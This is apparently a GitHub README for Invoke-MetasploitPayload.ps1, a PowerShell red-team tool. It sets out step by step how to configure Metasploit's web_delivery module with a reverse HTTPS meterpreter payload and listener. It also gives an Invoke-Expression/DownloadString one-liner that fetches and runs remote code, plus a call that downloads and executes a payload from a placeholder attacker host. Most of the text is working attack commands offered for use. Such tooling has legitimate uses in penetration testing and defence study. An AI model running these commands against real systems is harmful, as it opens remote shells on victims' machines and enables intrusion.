 <h2 align="center">Invoke-MetasploitPayload.ps1</h2>
Invoke-MetasploitPayload is a Powershell script used to kick off a Metasploit payload. It relies on the exploit/multi/scripts/web_delivery Metasploit module.

#### The exploit/multi/scripts/web_delivery module
The web_delivery module generates a script for a given payload and then fires up a webserver to host said script. If the payload is a reverse shell, it will also handle starting up the listener for that payload. 

#### Example Usage
On your Metasploit instance, run the following commands

```
use exploit/multi/script/web_delivery
```
The SRVHOST and SRVPORT variables are used for running the webserver to host the script
```
set SRVHOST 0.0.0.0
set SRVPORT 8443
set SSL true
```
The `target` variable determines what type of script we're using. `2` is for PowerShell
```
set target 2
```
Pick your payload. In this case, we'll use a reverse https meterpreter payload
```
set payload windows/meterpreter/reverse_https
set LHOST 0.0.0.0
set LPORT 443
```
Run the exploit
```
run -j
```

Once run, the web_delivery module will spin up the webserver to host the script and reverse listener for our meterpreter session.
#### Getting the Payload URL
After running the web_delivery module, it will print out the URL for the webserver hosting the script file. This will typically look like `http://[IP_OF_METASPLOIT_INSTANCE]/[RANDOM CHARACTERS]`. This URL is what you'll pass to `Invoke-MetasploitPayload`. _You can ignore the line about "Run the following command on the target machine"_

![Web Delivery Example](/web_delivery_screenshot.png)

#### Using Invoke-MetasploitPayload.ps1

Usage is simple, first execute the PS1 file.

```
PS> Invoke-Expression (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/jaredhaight/Invoke-MetasploitPayload/master/Inv
oke-MetasploitPayload.ps1")
```

Then just pass the URL from the web_delivery module to Invoke-MetasploitPayload. It will handle spinning up a new process and then downloading and executing the script.
```
PS> Invoke-MetasploitPayload -url "http://evil.example.com/SDFJLWKS"
```

#### Acknowledgements

Invoke-MetasploitPayload is really just a repackaging of the PowerShell commands provided by the [web_delivery module](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/script/web_delivery.rb) to download and execute the script. My hats off to those authors for their hard work.
